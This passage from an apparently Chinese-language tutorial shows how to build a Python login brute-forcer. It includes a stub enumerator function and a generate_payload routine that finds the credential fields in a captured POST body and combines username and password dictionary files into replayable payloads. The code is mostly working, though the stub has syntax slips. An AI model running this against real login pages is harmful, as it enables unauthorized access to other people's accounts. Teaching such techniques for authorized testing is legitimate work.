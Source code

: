 ````python

'''
print(sender(content).text)
````



### 2.修改数据包中要爆破的参数,生成payload

​	文中代码是重新发送数据包，但要爆破密码，需要对数据包中POST提交的数据进行修改。	

​	因此需要定义一个如下函数，第一个参数为封装好的数据包，第二个参数为POST提交的数据、后续需要对数据进行字典替换、后面两个决定是否爆破用户名或密码。

​	中间过程为字典替换，发送数据包，记录payload 、响应数据包中状态码、响应数据包长度。

````python
def enumerator(package,data,username=False,password=True)
	...
    return status_code payload length
````

​	具体实现代码如下:

> 字典替换: 
>
> 也即是在数据包中最后一行
>
> username=qwrdxername&password=qwrdxername
>
> 我们要将其中的qwrdxername和qwrdxername 进行字典替换，

`````python
def generate_payload(usernameandpassowrd="yonghuming=qwrdxername&mima=qwrdxerpasswd&session=DAWAWRFWAFAWEDF&test=testets"):
    tmpvar=usernameandpassowrd.split("&") #临时存储用户名和密码
    payloadlist=[]
    tmpdic={}
    user=""
    passwd=""
    payloadtemple=""
    for i in tmpvar:#在post提交表单中可能有其他数据，因此现将键值对存入字典中，然后将username和passwd提出来
        print(i)
        tmpdic[i.split('=')[1]]=i.split('=')[0]

    print(tmpdic)
    # 获取到两个表单中的参数名
    user=tmpdic['qwrdxername']
    passwd=tmpdic['qwrdxerpasswd']
    del tmpdic['qwrdxername']
    del tmpdic['qwrdxerpasswd']
    # 生成payload
    for i in tmpdic.keys():# 除用户名密码外其他固定参数装入payload中
        payloadtemple+=tmpdic[i]+"="+i+"&"

    for username in open("dictionary/username.txt","r",encoding='UTF-8-sig'):
        for password in open("dictionary/password.txt", "r",encoding='UTF-8-sig'):
            if payloadtemple!="":
                payloadlist.append(payloadtemple+"&"+user+"="+username.strip()+"&"+passwd+"="+password.strip())
            else:
                payloadlist.append(user + "=" + username.strip() + "&" + passwd + "=" + password.strip())
    return payloadlist

`````
